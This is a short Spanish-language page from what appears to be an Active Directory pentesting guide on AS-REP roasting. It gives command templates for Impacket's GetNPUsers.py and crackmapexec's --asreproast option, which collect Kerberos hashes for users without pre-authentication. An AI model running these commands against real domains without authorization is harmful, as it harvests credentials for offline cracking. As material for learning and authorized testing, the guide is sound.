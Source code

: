 # Obteniendo ASEREPROastable users hash

```
python /usr/share/doc/python3-impacket/examples/GetNPUsers.py <nombre dominio completo>/ -no-pass -usersfile <txt de lista de usuarios>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASEPRoast/vid.gif?raw=true "hash ASREP con GetNPUsers")

```
poetry run crackmapexec ldap <direccion ip> -u <txt de lista de usuarios> -p '' --asreproast <output.txt>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/user_but_no_credentials/ASEPRoast/vid2.gif?raw=true "hash ASREP con Crackmapexec")
